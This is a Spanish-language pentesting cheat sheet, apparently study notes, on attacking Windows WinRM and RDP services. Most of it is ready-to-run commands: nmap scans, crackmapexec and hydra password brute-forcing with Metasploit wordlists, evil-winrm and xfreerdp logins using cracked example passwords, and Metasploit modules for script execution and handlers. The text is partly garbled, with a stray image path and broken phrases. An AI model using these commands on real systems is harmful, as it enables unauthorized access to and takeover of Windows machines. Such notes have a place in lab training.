 #### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
No hay en este caso
```

##### Metasploit
Utilidades de la herramienta todo terreno carnal

```python
use exploit/multi/handler
```

### WinRm - 5985,5986 (this port no int common port 1000)
WinRM (Windows Remote Management) es un protocolo desarrollado por Microsoft para la administración remota de sistemas Windows. Utiliza los puertos 5985 y 5986 para la comunicación no cifrada y cifrada, respectivamente. Estos puertos permiten la ejecución de comandos y la administración de sistemas Windows de forma remota, ofreciendo una alternativa a otros protocolos como SSH en entornos Windows.

```python
nmap -p5985,5986 IP
crackmapexec winrm IP -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt (fuerza bruta pssword)
evil-winrm.rb -u 'administrator' -p 'tinkerbell' -i IP (conectarnos remoto)
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

##### Metasploit
Utilidades de la herramienta todo terreno carnal

```python
auxiliary/scanner/winrm/winrm_login
auxiliary/scanner/winrm/winrm_cmd
exploit/windows/winrm/winrm_script_exec (set FORCE_VBS true)
use exploit/windows/winrm/winrm_script_exec (acceder al sistema)
```

### RDP 3389 | 3333
El Protocolo de Escritorio Remoto (RDP) se utiliza para la administración remota de sistemas Windows. Opera en los puertos 3389 (predeterminado) y 3333, permitiendo a los usuarios conectarse a una máquina de forma remota para interactuar con su interfaz gráfica y ejecutar aplicaciones como si estuvieran localmente presentes en el sistema remoto.

```python
nmap -sV -sC IP
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://IP -s 3333
xfreerdp /u:administrator /v:IP:3333 /p:qwertyuiop
```
